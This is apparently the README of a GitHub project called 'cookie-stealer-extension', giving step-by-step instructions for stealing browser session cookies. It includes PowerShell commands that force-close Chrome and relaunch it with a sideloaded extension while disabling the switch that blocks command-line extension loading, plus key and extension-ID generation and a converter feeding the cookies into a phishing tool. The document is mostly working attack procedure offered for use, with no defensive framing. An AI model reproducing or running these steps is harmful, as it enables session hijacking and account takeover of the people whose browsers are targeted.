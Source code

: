 # cookie-stealer-extension

## Manual Cookie Extraction
Update manifest with public key (optional)
1. Go to `chrome://extensions/` or `edge://extensions/`
2. Enable "Developer Mode" 
3. Load the folder with the extension. 
4. View cookies in downloads

## Automated Cookie Extraction

0. Optional: Create Public Key and insert into manifest.json

Helps keep track of the extension ID thats going to be loaded  
```powershell
cd cookie-stealer-extension

#create a public key for the extension
openssl genrsa -out extension.key 2048
openssl rsa -in extension.key -pubout -outform DER -out extension_public.der
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\path\to\extension_public.der")) > extension_pubkey_b64.txt

# add base64 key to manifest.json
(Get-Content manifest.json.template -Raw) -replace 'UPDATEME', (Get-Content extension_pubkey_b64.txt -Raw) | Set-Content manifest.json
```

Calculate extension ID
```powershell
# Base64-encoded public key
$base64 = Get-Content "extension_pubkey_b64.txt" -Raw

# Decode the Base64 into bytes (DER-encoded public key)
$pubkeyBytes = [Convert]::FromBase64String($base64)

# Compute SHA256 hash
$sha256 = [System.Security.Cryptography.SHA256]::Create()
$hash = $sha256.ComputeHash($pubkeyBytes)

# Use the first 16 bytes (128 bits) and convert each 4-bit nibble to a letter a-p (extension ID uses base16 a-p encoding)
$extensionId = ""
foreach ($b in $hash[0..15]) {
    $hi = ($b -band 0xF0) -shr 4
    $lo = $b -band 0x0F
    $extensionId += [char](97 + $hi) + [char](97 + $lo)
}

"Extension ID: $extensionId"
```

1. Update manifest.json as needed and load custom extension
```powershell
# all insteances of chrome must be stopped for this to work
Get-Process chrome -ErrorAction SilentlyContinue | Stop-Process -Force

start-process chrome.exe -ArgumentList '--load-extension=C:\Path\To\cookie-stealer-extension --disable-features=DisableLoadExtensionCommandLineSwitch https://google.com'
# Note Edge does not require the disabled feature switch
start-process msedge.exe -ArgumentList '--load-extension=C:\Path\To\cookie-stealer-extension https://google.com'

```

2. Convert to cuddlephish
```
python converter.py -h
Usage: python converter.py <input_file>
```